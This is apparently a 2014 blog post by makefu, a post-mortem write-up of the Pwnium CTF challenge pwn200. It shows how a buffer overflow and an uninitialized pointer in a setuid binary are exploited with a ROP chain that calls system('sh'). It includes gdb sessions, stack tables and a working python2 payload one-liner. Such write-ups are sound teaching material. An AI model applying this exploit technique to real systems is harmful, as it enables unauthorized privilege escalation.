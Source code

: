 title: Be a Robot
date: 2014-07-30
author: makefu
tags: crackme, pwnium2014, post-mortem

 * **Solved by**: makefu

## Intro
First of all, this is a post-mortem solution for pwn200 as we failed to finish
it within ctf time both because the challenge was offline alot of the time and
that we were not experienced enough to find a solution.

The challenge was to elevate privileges on a remote server to a user which was
able to read the file $HOME/flag . The folder also contained a file named
pwn200 which had suid bit set for the user -> pop a shell by finding a vuln in
this program.

## Track the Vuln
Running the program looks like this:

    :::bash
    $ ./pwn200 
    Name: Bob
    Age: 10
    Goodbye little boy

    $ ./pwn200
    Name: Khan
    Age: -1
    [1]    6141 segmentation fault  ./pwn200

When supplying a negative age `eax` will not be updated in the function atExit
and the pointer will stay uninitialized. 

![failed check in atExit](data/be_a_robot/atExit.png)

The fgets which reads the name contains a buffer overflow which allows us to override exactly this pointer.

![bof in read\_user](data/be_a_robot/read_user.png)

Trying it in gdb looks like this:

    :::gdb
    (gdb) br *0x8048670 # call eax
    Breakpoint 1 at 0x8048670
    (gdb) r
    Starting program: /home/makefu/pwnium/200/pwn200 
    warning: Could not load shared library symbols for linux-gate.so.1.
    Do you need "set solib-search-path" or "set sysroot"?
    Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Breakpoint 1, 0x08048670 in atExit ()
    (gdb) disass 
    Dump of assembler code for function atExit:
      0x08048660 <+36>:  cmp    DWORD PTR [ebp+0x8],0x0
      0x08048664 <+40>:  jle    0x804866d <atExit+49>
      0x08048666 <+42>:  mov    DWORD PTR [ebp-0xc],0x804860c
      0x0804866d <+49>:  mov    eax,DWORD PTR [ebp-0xc]
    => 0x08048670 <+52>:  call   eax
      0x08048672 <+54>:  leave  
      0x08048673 <+55>:  ret    
    End of assembler dump.
    (gdb) i r eax
    eax            0x41414141 1094795585

## Prepare the stack for ROP
We cannot directly execute our name string as both ASLR and NX-Stack are enabled but there is a system call in a unused function called `test`:

    :::gdb
    (gdb) disassemble test
    Dump of assembler code for function test:
      0x08048694 <+0>: push   ebp
      0x08048695 <+1>: mov    ebp,esp
      0x08048697 <+3>: sub    esp,0x8
      0x0804869a <+6>: sub    esp,0xc
      0x0804869d <+9>: push   0x80487f3
      0x080486a2 <+14>:  call   0x8048430 <system@plt>
      0x080486a7 <+19>:  add    esp,0x10
      0x080486aa <+22>:  leave  
      0x080486ab <+23>:  ret    
    End of assembler dump.

Too bad we cannot directly prepare the stack with our provided text to supply a string which then can be executed. 

To be clear: we currently only control `eip`, not the `esp`. ROP to the rescue!

This is how our stack must look like for a successful exploit:

| Address  | Description |
|---------|------------:|
| call system          | <- esp                      |
| [command-string]     | <- esp + 4 (first argument) |

We cannot call system directly because after the call as ebp+4 will be pointing to our provided jump address.
The ROP gadget i used is a simple 'pop-ret' which can be found with for example [msfrop]( http://shell-storm.org/project/ROPgadget/ ) or [ROPgadget](http://shell-storm.org/project/ROPgadget/) in conjuction with a `system` call. POP-RET is at `0x080487a6`. 

By that we can prepare our input as an argument for the system call. As we have no shell command yet we will used `0x80487f3` - 'echo pwned' for testing.


### Follow the Execution Flow
These tables show the stack after each ROP step.

**Before call ROP**

| Address  | Description |
|:---------|:-----------:|
| [A\*36]     | BOF Filler    |
| [AAAA]      | BOF Filler    |
| 0x080486a2 `esp` | call system   | 
| 0x080487f3  | "echo hacked" |
| [BBBB]      | Filler        |
| 0x080487a6 `eip` | pop ebx;ret   | 

**After ret from pop-ret ROP Gadget**

| Address  | Description |
|:---------|:-----------:|
| [A\*32]     | BOF Filler        |
| 0x08048672  | ret addr call-eax |
| 0x080486a2  | call system       |
| 0x080487f3 `esp`  | "echo hacked"     |
| [BBBB]      | Filler            |
| 0x080487a6  | pop ebx;ret       |

**After call system**

| Address  | Description |
|:---------|:-----------:|
| [A\*32]     | BOF Filler           |
| 0x08048672  | ret addr call-eax    |
| 0x080486a2 `esp` | ret addr call-system |
| 0x080487f3 `parm1` | "echo hacked"        | 
| [BBBB]      | Filler               |
| 0x080487a6  | pop ebx;ret          |

**Quick Sidenote:**

 1. `call address` pushes the return address($eip+sizeof(call)) onto the stack and executes the function at  **address**.
 2. *ret* pops the return address from the stack and executes the address

The payload generation and testing looks like this:

    :::bash
    python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")'  > in
    gdb ./pwn200
    (gdb) r < in
    Starting program: ./pwn200 < in
    hacked
    Name: Age: [Inferior 1 (process 11968) exited normally]



### Find the exec string

We need a string address for system argument which allows us to run whatever commands we want. Due to the fact aslr is enabled hitting our 36 bytes short buffer is kind of unlikely. Using environment variables with `" "\*9001 +"/bin/sh"` may give us a better chance to guess the address but is still pretty crude.

`"sh"` which is short and gives us full access may reside in the executable after being loaded in the memory so i gave it a shot with gdb:
    
    :::gdb 
    (gdb) break main
    Breakpoint 1 at 0x8048701A
    (gdb) start
    (gdb) info proc mappings
    process 11324
    Mapped address spaces:

      Start Addr   End Addr       Size     Offset objfile
      0x8048000  0x8049000     0x1000        0x0 /home/makefu/pwnium/200/pwn200
      0x8049000  0x804a000     0x1000        0x0 /home/makefu/pwnium/200/pwn200
      0xf7564000 0xf7565000     0x1000        0x0 
      0xf7565000 0xf7720000   0x1bb000        0x0 /usr/lib32/libc-2.19.so
      0xf7720000 0xf7723000     0x3000   0x1ba000 /usr/lib32/libc-2.19.so
      0xf7723000 0xf7725000     0x2000   0x1bd000 /usr/lib32/libc-2.19.so
      0xf7725000 0xf7727000     0x2000        0x0 
      0xf7757000 0xf7759000     0x2000        0x0 
      0xf7759000 0xf775a000     0x1000        0x0 [vdso]
      0xf775a000 0xf777b000    0x21000        0x0 /usr/lib32/ld-2.19.so
      0xf777b000 0xf777c000     0x1000        0x0 
      0xf777c000 0xf777d000     0x1000    0x21000 /usr/lib32/ld-2.19.so
      0xf777d000 0xf777e000     0x1000    0x22000 /usr/lib32/ld-2.19.so
      0xffeba000 0xffedb000    0x21000        0x0 [stack]
    (gdb) find 0x08048000, +5000, "sh"
    0x8048c01
    1 pattern found.

Instead of 0x80487f3 we are now using 0x8048c01.

## Putting it all together

    :::bash
    # first pipe the shellcode, then use stdin
    (python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")'; cat) | ./pwn200
    ls /
    bin   dev  krebs  media  root  sbin  sys  usr  var
    boot  etc  home   lib    mnt   proc  run  tmp


## Cheers
To [Team Action Kaktus](https://ctftime.org/team/6997) on ctftime for making a writeup with a nonfunct solution, this made me try hard enough to finish it by myself.

[Download the pwn200 binary](data/be_a_robot/pwn200)
